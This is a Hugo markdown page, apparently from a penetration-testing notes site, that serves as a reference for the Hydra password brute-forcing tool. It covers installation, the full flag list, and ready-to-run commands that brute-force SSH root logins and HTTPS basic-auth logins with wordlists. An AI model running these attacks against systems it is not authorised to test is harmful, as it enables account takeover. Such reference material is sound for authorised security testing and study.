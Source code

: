 ```yaml
---
### The title for the content.
title : "Hydra"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "hydra"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "Bruteforce logins."
### The datetime assigned to this page.
date : 2020-03-10T16:43:45+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "hydra"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
tags : ["Tools","bruteforce","password-spraying"]
---
```


## Hydra

### Installation

```bash
apt install apt-get install libssl-dev libssh-dev libidn11-dev libpcre3-dev libgtk2.0-dev libmysqlclient-dev libpq-dev libsvn-dev firebird-dev libmemcached-dev libgpg-error-dev libgcrypt11-dev libgcrypt20-dev
git clone https://github.com/vanhauser-thc/thc-hydra
cd thc-hydra
./configure
make
make install
```

### Usage

```bash
hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [-m MODULE_OPT] [service://server[:PORT][/OPT]]
```

### Flags

Flags

```bash
-R        restore a previous aborted/crashed session
-I        ignore an existing restore file (don't wait 10 seconds)
-S        perform an SSL connect
-s PORT   if the service is on a different default port, define it here
-l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
-p PASS  or -P FILE  try password PASS, or load several passwords from FILE
-x MIN:MAX:CHARSET  password bruteforce generation, type "-x -h" to get help
-y        disable use of symbols in bruteforce, see above
-r        use a non-random shuffling method for option -x
-e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
-u        loop around users, not passwords (effective! implied with -x)
-C FILE   colon separated "login:pass" format, instead of -L/-P options
-M FILE   list of servers to attack, one entry per line, ':' to specify port
-o FILE   write found login/password pairs to FILE instead of stdout
-b FORMAT specify the format for the -o FILE: text(default), json, jsonv1
-f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
-t TASKS  run TASKS number of connects in parallel per target (default: 16)
-T TASKS  run TASKS connects in parallel overall (for -M, default: 64)
-w / -W TIME  wait time for a response (32) / between connects per thread (0)
-c TIME   wait time per login attempt over all threads (enforces -t 1)
-4 / -6   use IPv4 (default) / IPv6 addresses (put always in [] also in -M)
-v / -V / -d  verbose mode / show login+pass for each attempt / debug mode 
-O        use old SSL v2 and v3
-K        do not redo failed attempts (good for -M mass scanning)
-q        do not print messages about connection errors
-U        service module usage details
-m OPT    options specific for a module, see -U output for information
-h        more command line options (COMPLETE HELP)
server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
service   the service to crack (see below for supported protocols)
OPT       some service modules support additional input (-U for module help)
```

### Examples

#### known username, password list on ssh

root with passwordlist, null password, login as pass and reversed login as pass.

```bash
hydra -v -V -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.168.88.129 ssh -t 8 -e nsr
```

#### user list, password list on ssh

userlist with passwordlist, null password, login as pass and reversed login as pass looped around users.

```bash
hydra -v -V -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.168.88.129 ssh -t 8 -e nsr -u
```

#### Basic auth brute-force + password list

```bash
hydra -l admin -P <passwords.txt> -s 443 -f domain.tld https-get /   
```

#### Basic auth brute-force + username & password list

```bash
hydra -L <users.txt> -P <passwords.txt> -s 443 -f domain.tld https-get /   
```

### Related pages

{{< related_pages_table tag="password-spraying" >}}

### Also see

[Github Project](https://github.com/vanhauser-thc/thc-hydra)